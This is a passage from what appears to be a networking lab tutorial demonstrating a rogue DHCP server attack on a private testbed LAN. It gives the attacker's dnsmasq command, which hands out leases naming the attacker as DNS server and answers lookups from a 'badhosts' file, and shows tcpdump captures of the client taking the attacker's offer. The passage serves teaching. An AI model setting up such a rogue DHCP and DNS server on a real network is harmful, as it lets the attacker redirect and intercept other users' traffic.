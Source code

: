 Now, on the attacker, start a `dnsmasq` instance:

<pre>
sudo service dnsmasq stop
sudo dnsmasq --interface=eth1 --bind-interfaces --dhcp-range=10.10.1.20,10.10.1.50,255.255.255.0,72h --no-hosts --dhcp-option=6,10.10.1.254 --addn-hosts=/tmp/badhosts -d
</pre>

Note the `addn-hosts` option we are using, to tell `dnsmasq` to respond to queries for hostnames listed in the `badhosts` file with the corresponding addresses listed there. 


On the client node, start a `tcpdump` to show DHCP and DNS traffic:

<pre>
sudo tcpdump -i eth1 -n -e -v "udp port 67 or udp port 68 or udp port 53"
</pre>

Then, in a second terminal window on the client, run

```
sudo dhclient eth1  
```

to ask for an IP address from DHCP over the private LAN. In the `tcpdump` output, we can see the client's DISCOVER message, which is broadcast on the LAN:

<pre>
15:20:14.312030 02:0f:07:a6:c6:d8 > <b>ff:ff:ff:ff:ff:ff</b>, ethertype IPv4 (0x0800), length 342: (tos 0x10, ttl 128, id 0, offset 0, flags [none], proto UDP (17), length 328)
    0.0.0.0.68 > <b>255.255.255.255</b>.67: BOOTP/DHCP, Request from 02:0f:07:a6:c6:d8, length 300, xid 0xb9ac4669, Flags [none]
      Client-Ethernet-Address 02:0f:07:a6:c6:d8
      Vendor-rfc1048 Extensions
        Magic Cookie 0x63825363
        DHCP-Message Option 53, length 1: <b>Discover</b>
        Requested-IP Option 50, length 4: 10.10.1.37
        Hostname Option 12, length 6: "client"
        Parameter-Request Option 55, length 7: 
          Subnet-Mask, BR, Time-Zone, Default-Gateway
          Domain-Name, Domain-Name-Server, Option 119
</pre>

You should see OFFER messages from both `dnsmasq` instances - on the "good" server and on the attacker - in the `tcpdump` captures. But only one server will then get a REQUEST from the client. Since the offer from the "good" server is delayed, the client will complete the DHCP transaction with the attacker, which responded to the query first:

<pre>
15:20:14.312280 02:60:70:39:bf:e2 > 02:0f:07:a6:c6:d8, ethertype IPv4 (0x0800), length 342: (tos 0xc0, ttl 64, id 47099, offset 0, flags [none], proto UDP (17), length 328)
    10.10.1.254.67 > 10.10.1.37.68: BOOTP/DHCP, Reply, length 300, xid 0xb9ac4669, Flags [none]
      Your-IP 10.10.1.37
      Server-IP <b>10.10.1.254</b>
      Client-Ethernet-Address 02:0f:07:a6:c6:d8
      Vendor-rfc1048 Extensions
        Magic Cookie 0x63825363
        DHCP-Message Option 53, length 1: <b>Offer</b>
        Server-ID Option 54, length 4: 10.10.1.254
        Lease-Time Option 51, length 4: 259200
        RN Option 58, length 4: 129600
        RB Option 59, length 4: 226800
        Subnet-Mask Option 1, length 4: 255.255.255.0
        BR Option 28, length 4: 10.10.1.255
        Default-Gateway Option 3, length 4: 10.10.1.254
        Domain-Name-Server Option 6, length 4: 10.10.1.254

